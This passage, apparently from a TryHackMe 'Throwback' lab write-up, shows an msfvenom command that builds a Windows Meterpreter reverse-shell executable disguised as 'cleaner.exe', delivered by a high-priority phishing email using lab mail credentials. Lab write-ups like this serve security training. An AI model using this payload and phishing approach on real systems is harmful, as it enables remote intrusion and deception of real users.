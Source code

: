 The reset link needs to resolve the DNS to its IP, but we don't know it till now. So, Let's save it as a note.

### **5 ThrowBack-WS01  10.200.154.222**

As we logged in as `DaviesJ:Management2018` on the mail-server  [http://10.200.154.232](http://10.200.154.232). We found an email which include a `exe` file. So, we have an option here to use a phishing attack.

**Creating the shell**
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=tun0 lport=443 -f exe -o cleaner.exe
```
![cleaner.exe](/assets/img/tryhackme/throwback/reverse_shell.png)

Now, we have to create a phishing mail.

![mail-phishing](/assets/img/tryhackme/throwback/mail-phishing.png)

`Don't forget to change priority to high`

After sending the mail, We will get a callback session.
![reverse_shell_session](/assets/img/tryhackme/throwback/reverse_shell_session2.png)

Check the sysinfo.

![sysinfo_ws01](/assets/img/tryhackme/throwback/sysinfo-ws-01.png)
